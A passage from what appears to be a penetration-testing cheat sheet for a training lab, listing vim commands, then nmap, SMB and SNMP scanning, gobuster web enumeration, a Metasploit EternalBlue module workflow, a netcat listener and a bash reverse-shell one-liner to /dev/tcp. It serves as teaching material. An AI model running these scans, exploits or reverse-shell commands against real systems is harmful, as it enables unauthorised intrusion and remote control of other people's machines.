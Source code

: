 | `p` | vim: Paste |
| `:1` | vim: Go to line number 1. |
| `:w` | vim: Write the file 'i.e. save' |
| `:q` | vim: Quit |
| `:q!` | vim: Quit without saving |
| `:wq` | vim: Write and quit |

#### Pentesting

| **Command**   | **Description**   |
| --------------|-------------------|
| **Service Scanning** |
| `nmap 10.129.42.253` | Run nmap on an IP |
| `nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP |
| `locate scripts/citrix` | List various available nmap scripts |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP |
| `netcat 10.10.10.10 22` | Grab banner of an open port |
| `smbclient -N -L \\\\10.129.42.253` | List SMB Shares |
| `smbclient \\\\10.129.42.253\\users` | Connect to an SMB share |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP |
| `onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string |
| **Web Enumeration** |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website |
| `curl -IL https://www.inlanefreight.com` | Grab website banner |
| `whatweb 10.10.10.121` | List details about the webserver/certificates |
| `curl 10.10.10.121/robots.txt` | List potential directories in `robots.txt` |
| `ctrl+U` | View page source (in Firefox) |
| **Public Exploits** |
| `searchsploit openssh 7.2` | Search for public exploits for a web application |
| `msfconsole` | MSF: Start the Metasploit Framework |
| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
| `show options` | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
| `check` | MSF: Test if the target server is vulnerable |
| `exploit` | MSF: Run the exploit on the target server is vulnerable |
| **Using Shells** |
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |